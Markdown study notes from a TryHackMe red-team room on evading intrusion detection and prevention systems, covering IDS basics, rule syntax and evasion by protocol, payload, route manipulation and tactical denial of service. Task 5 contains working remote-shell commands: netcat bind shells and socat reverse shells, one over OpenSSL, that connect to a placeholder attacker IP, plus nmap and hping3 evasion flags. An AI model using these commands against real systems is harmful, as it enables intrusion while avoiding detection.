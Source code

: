# room
https://tryhackme.com/room/redteamnetsec

# task 1 - intro to IDS
* IDS - intrusion detection system
* IDS detects network or system intrusions
* IPS - intrusion prevention system
* IPS detects and prevents network or system intrusions
* IDS types
    * HIDS - host based IDS
        * installed as an application on the client OS
        * monitors local processes and activity
    * NIDS - network based IDS
        * a dedicated network appliance that monitors network traffic
        * connects through a port mirror on a network switch

# task 2 - IDS engine types
* network traffic classification
    * benign - normal everyday traffic
    * malicious - abnormal traffic that is not seen under normal circumstances
* IDS detection engines
    * signature based
        * requires full knowledge of malicious traffic
        * must create rules to match traffic
    * anomaly based
        * requires IDS to have knowledge of what regular traffic looks like
        * requires traffic baseline

# task 3 - IDS/IPS rule triggering
* each IDS/IPS has a certain syntax to write rules
* rule options
    * actions: alert, log, pass, drop, reject
    * protocols: tcp, udp, icmp, ip
    * source ip/source port
    * direction of flow
    * destination ip/destination port

# task 4 - evasion via protocol manipulation
* evading signature-based IDS/IPS requires that you manipulate traffic so it doesn't match the signatures
* four approaches to evasion
    * protocol manipulation
    * payload manipulation
    * route manipulation
    * tactical denail of service
* evasion via protocol manipulation
    * rely on different protocol
    * manipulate source tcp/udp port
    * use session splicing (IP packet fragmentation)
    * send invalid packets
* rely on different protocol
    * IDS/IPS might be configured to block some but allow others
    * using netcat to listen on allowed application ports
        * nc -nvlp 25
        * nc -nvlp 162
* manipulate source tcp/udp port
    * make your traffic appear to be another application
        * for nmap scans
            * nmap -g 80
            * nmap -g 53
        * for a connection through dns
            * nc -nvlpu 53
            * nc -u [attacker_ip] 53
        * for a connection through web
            * nc -nvlp 80
            * nc -u [attacker_ip] 80
* use session splicing
    * break packets related to an attack into smaller packets to avoid IDS signatures
        * if the IDS reassembles the packets, this won't work
    * nmap offers a few fragment options
        * -f - set data to 8 bytes
        * -ff - set data to 16 bytes at most
        * -mtu [size] - custom size, should be a multiple of 8
    * fragroute
        * https://www.monkey.org/~dugsong/fragroute/
* send invalid packets
    * response to valid packets is predictable
    * IDS/IPS might process an invalid packet while the end system may ignore it
    * nmap invalid packets
        * --badsum - creates a bad checksum
        * --scanflags - change flags that packets are sent with
            * --scanflags SYNRSTFIN
    * hping3 allows you to craft packets with custom fields
        * -t - set ttl
        * -b - set bad checksum
        * -S, -A, -P, -U, -F, -R - set individual flags

# task 5 - evasion via payload manipulation
* evasion via payload manipulation
    * obfuscating and encoding the payload
    * encryptiong the communication channel
    * modifying the shellcode
* obfuscating and encoding the payload
    * add extra bytes
    * obfuscate attack data
    * encrypt communication
    * nc -nvlp 1234 -e /bin/bash
* encode to base64
    * base64
* url encoding
    * converts certain characters to %HH where HH is the hex to ascii representation
    * urlencode
    * urlencode ncat -nvlp 1234 -e /bin/bash
* use escaped unicode
    * some systems still executed properly escaped unicode
    * cyberchef
* encrypt the communication channel
    * IDS/IPS won't inspect encrypted data
    * socat can use encryption
    * steps to an encrypted reverse shell
        * create key
            * openssl req -x509 -newkey rsa:4096 -days 365 -subj '/CN=example.thm/O=test/C=US' -nodes -keyout thm-reverse.key -out thm-reverse.crt
            * cat thm-reverse.key thm-reverse.crt > thm-reverse.pem
        * listen on attacker machine
            * socat -d -d OPENSSL-LISTEN:4443,cert=thm-reverse.pem,verify=0,fork STDOUT
        * connect from victim
            * socat OPENSSL:1.2.3.4:4443,verfiy=0 EXEC:/bin/bash
    * non-encrypted socat shell example
        * socat -d -d TCP-LISTEN:4443,fork STDOUT
        * socat TCP:1.2.3.4:4443 EXEC:/bin/bash
* modify the data
    * example bind shell
        * nc -nvlp 1234 -e /bin/bash

# task 6 - evasion via route manipulation
* evasion via route manipulation
    * rely on source routing
    * using proxy servers
* source routing
    * loose
        * nmap --ip-options "L 10.10.10.50 10.10.50.250"
    * strict
        * nmap --ip-options "S 10.10.10.1 10.10.20.2 10.10.30.3"
* proxy servers
    * nmap -sS http://proxy:8080,SOCKS4://proxy_host:1234 1.2.3.4
* nmap supports HTTP and SOCKS4 proxies

# task 7 - evasion via tactical dos
* evasion via tactical dos
    * launch dos against IDS/IPS
    * launch dos against log server
* huge amounts of benign traffic may overload the IDS/IPS processing power
* huge amounts of benign traffic may complicate review of the logs

# task 8 - c2 and IDS/IPS evasion
* c2 variable controls
    * user-agent
    * sleep time
    * jitter
    * ssl certificate
    * dns beacon

# task 9 - next gen security
* next gen
    * should achieve what current gen can
    * full app stack visibility
    * context awareness to use outside sources to classify data
    * content awareness through file classification
    * agile to support upgrades via advancements in the engine

# task 10 - summary
* summary